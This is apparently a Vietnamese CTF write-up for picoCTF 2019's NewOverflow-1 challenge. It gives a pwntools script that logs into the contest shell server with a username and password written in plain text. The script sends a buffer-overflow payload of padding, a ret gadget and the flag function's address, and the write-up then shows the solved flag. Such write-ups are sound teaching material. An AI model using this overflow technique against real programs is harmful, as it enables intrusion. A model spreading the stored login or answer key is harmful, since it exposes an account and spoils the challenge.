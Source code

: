 # Solution 
### Bài này thì easy thôi, chỉ cần mình fill đầy offset và ret về hàm `flag` coi như solve được bài này.

### Đây là file exploit.py của mình
```sh
from pwn import *
#s = process("./vuln")
ss = ssh(host = '2019shell1.picoctf.com',user = 'hazir', password = '2k4')
s = ss.run("cd  /problems/newoverflow-1_1_39d472170ee5080cac1226374a7101a7 ; ./vuln")
ret_gadget = 0x00000000004005de
pl = "a"* 0x48 + p64(ret_gadget) +  p64(0x400767)
s.sendline(pl)
s.interactive()
``` 

Run và nhận flag thôi: `picoCTF{th4t_w4snt_t00_d1ff3r3nt_r1ghT?_cfe23f2b}`